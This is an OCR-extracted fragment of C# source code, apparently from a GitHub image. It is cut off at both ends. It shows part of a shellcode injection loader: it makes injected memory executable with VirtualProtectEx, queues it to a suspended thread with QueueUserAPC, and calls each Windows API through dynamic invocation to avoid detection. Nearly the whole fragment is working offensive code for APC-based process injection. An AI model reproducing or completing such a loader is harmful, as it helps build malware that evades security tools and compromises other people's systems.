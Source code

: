 ```

ref wpmParameters

);

object[] vpExParameters =

{

processInfo.hProcess,

baseAddress,

(uint)shellcode.Length,

(uint)MEMORY_PROTECTION.PAGE_EXECUTE_READ,

0u

};

Generic.DynamicFunctionInvoke(

hVirtualProtectEx,

typeof(VirtualProtectExDelegate),

ref vpExParameters

);

object[] qapcParameters =

{

baseAddress,

processInfo.hThread,

IntPtr.Zero

};

Generic.DynamicFunctionInvoke(

hQueueUserAPC,

typeof(QueueUserAPCDelegate),

ref qapcParameters

);

object[] rthdParameters =

{

processInfo.hThread

};

Generic.DynamicFunctionInvoke(

```